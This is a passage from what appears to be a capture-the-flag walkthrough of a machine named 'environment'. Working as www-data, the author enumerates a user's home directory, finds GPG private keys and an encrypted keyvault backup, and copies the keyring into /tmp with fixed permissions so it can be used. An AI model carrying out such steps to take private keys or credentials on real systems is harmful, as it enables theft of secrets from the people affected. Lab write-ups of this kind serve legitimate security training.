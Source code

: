 I then noticed that `www-data` can access Hish's home directory, due to weak permissions on the home directory.  I notice some GPG private keys and a `~/backup/keyvault.gpg` file.

```
www-data@environment:~/app$ find /home/hish
find /home/hish
/home/hish
/home/hish/backup
/home/hish/backup/keyvault.gpg
/home/hish/user.txt
/home/hish/.bash_history
/home/hish/.bash_logout
/home/hish/.local
/home/hish/.local/share
/home/hish/.local/share/caddy
/home/hish/.local/share/caddy/locks
/home/hish/.local/share/caddy/locks/storage_clean.lock
/home/hish/.local/share/caddy/instance.uuid
/home/hish/.local/share/nano
/home/hish/.local/share/nano/search_history
/home/hish/.local/share/composer
/home/hish/.local/share/composer/.htaccess
/home/hish/.gnupg
/home/hish/.gnupg/private-keys-v1.d
/home/hish/.gnupg/private-keys-v1.d/C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
/home/hish/.gnupg/private-keys-v1.d/3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
/home/hish/.gnupg/trustdb.gpg
/home/hish/.gnupg/pubring.kbx
/home/hish/.gnupg/openpgp-revocs.d
/home/hish/.gnupg/openpgp-revocs.d/F45830DFB638E66CD8B752A012F42AE5117FFD8E.rev
/home/hish/.gnupg/pubring.kbx~
/home/hish/.gnupg/random_seed
/home/hish/.profile
/home/hish/.bashrc
```

### 🧪 Exploitation

The temporary directory `/tmp/fc` is created.

```
www-data@environment:~/app$ mkdir /tmp/fc
mkdir /tmp/fc
www-data@environment:~/app$ cd /tmp/fc
cd /tmp/fc
```

Hish's `~/.gnupg` directory is then copied to the temporary directory and the permissions are changed to `700`, otherwise GPG won't read the files due to weak permissions.

```
www-data@environment:/tmp/fc$ cp -r /home/hish/.gnupg/* .
cp -r /home/hish/.gnupg/* .
www-data@environment:/tmp/fc$ chmod -R 700 .
chmod -R 700 .
www-data@environment:/tmp/fc$ ls -lha
ls -lha
total 32K
drwx------  4 www-data www-data 4.0K Jul 21 03:08 .
drwxrwxrwt 10 root     root     4.0K Jul 21 03:08 ..
drwx------  2 www-data www-data 4.0K Jul 21 03:08 openpgp-revocs.d
drwx------  2 www-data www-data 4.0K Jul 21 03:08 private-keys-v1.d
-rwx------  1 www-data www-data 1.5K Jul 21 03:08 pubring.kbx
-rwx------  1 www-data www-data   32 Jul 21 03:08 pubring.kbx~
-rwx------  1 www-data www-data  600 Jul 21 03:08 random_seed
-rwx------  1 www-data www-data 1.3K Jul 21 03:08 trustdb.gpg
```